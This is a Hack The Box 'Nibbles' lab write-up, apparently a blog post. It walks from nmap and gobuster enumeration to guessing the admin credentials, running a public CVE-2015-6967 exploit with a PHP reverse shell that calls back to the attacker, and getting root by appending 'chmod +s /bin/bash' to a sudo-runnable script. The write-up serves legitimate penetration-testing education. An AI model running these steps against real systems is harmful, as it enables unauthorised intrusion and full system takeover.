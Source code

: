 ```yaml
---
title: "HTB Nibbles"
date: 2022-12-18T19:22:03-05:00
draft: false
---
```


#### Initial nmap

```bash
sudo nmap -p- -T5 $IP

Nmap scan report for 10.129.30.217
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
#### Concentrated nmap

```bash
sudo nmap -p 22,80 -A -T5 $IP

Nmap scan report for 10.129.30.217
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   42.51 ms 10.10.14.1
2   42.63 ms 10.129.30.217
```
#### Port 80 - 

It looks like a static webpage

{{< image src="/static/static_page.png" alt="static" position="center" style="border-radius: 8px;" >}}

Since there are only two ports open I will run gobuster and see if I can find any directories that may be on the site.

{{< image src="/static/gobuster_1.png" alt="gobuster_1" position="center" style="border-radius: 8px;" >}}

No luck with directory brute-forcing, but if I check the source of the webpage we get a bit of a hint.

{{< image src="/static/view_source.png" alt="source_1" position="center" style="border-radius: 8px;" >}}

If i navigate to the webpage `http://$IP/nibbleblog/` it looks like a blog page.

{{< image src="/static/nibbles_blog.png" alt="nibbles_blog" position="center" style="border-radius: 8px;" >}}

Using gobuster we can look for subdirectories inside /nibbleblog/ 

{{< image src="/static/gobuster_2.png" alt="gobuster_2" position="center" style="border-radius: 8px;" >}}

Navigating to the readme file at `http://$IP/nibbleblog/README`

we can see the version the blog is running

{{< image src="/static/nibbles_version.png" alt="nibbles_version" position="center" style="border-radius: 8px;" >}}

After doing some research on google, I found there is a RCE on this version of nibbleblog, but we need to be authenticated. 

I will try default credentials i.e. `admin:admin` etc.

after doing this for a bit I tried `admin:nibbles` and it was successful! Now we can move forward with the RCE.

#### RCE - 

I will be using this script from github (https://github.com/dix0nym/CVE-2015-6967) combined with the php reverse shell which can be found here (https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

when you setup the php reverse shell be sure to edit the file and add your IP & port that you will be listening on.

{{< image src="/static/php_revshell.png" alt="php_revshell" position="center" style="border-radius: 8px;" >}}

Once finished you can proceed with these steps

```bash
git clone https://github.com/dix0nym/CVE-2015-6967.git
```

```bash
chmod +x exploit.py
```

```bash
python3 exploit.py --url http://10.129.30.217/nibbleblog/ --username admin --password nibbles --payload shell.php
```

After running the script check your reverse shell and you should see the following - 

{{< image src="/static/nc_shell.png" alt="nc_shell" position="center" style="border-radius: 8px;" >}}

Upgrading our shell (make the reverse shell more stable)

```bash
which python3

/usr/bin/python3
```

Great, we can use python3 to upgrade our shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

after running you should see this - 

{{< image src="/static/shell_upgrade1.png" alt="shell_upgrade" position="center" style="border-radius: 8px;" >}}

Now we can make it even better with the following - 

```
ctrl+z (this will drop you into your host/vm terminal)
```

When in your host shell 

```bash
stty raw -echo ; fg (Hit enter, nothing will happen, but hit enter again and you will be back into the shell as nibbler@Nibbles)
```

{{< image src="/static/shell_upgrade2.png" alt="Error100" position="center" style="border-radius: 8px;" >}}

Next we can export TERM 

```bash 
export TERM=xterm-256color
```

#### PrivEsc

As the user nibbler we can run a script using sudo 

{{< image src="/static/sudo_privs.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

the files are zipped up but we can fix that.

```bash
unzip personal.zip
```

```bash
cd personal/stuff
```

```bash
ls -la 

drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

We can write to this file, so lets add something we can abuse to gain root access!

```bash
echo "chmod +s /bin/bash" >> monitor.sh
```

execute the script as sudo 

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

this should set the bash binary to has a SUID bit set this will allow us to execute bash as root. We can do this with the following command.

```bash
bash -p
```

After running that you should see this - 

{{< image src="/static/suid_abuse.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

and if you run whoami it will say `root`

you can gather the flags from the user & root directory.


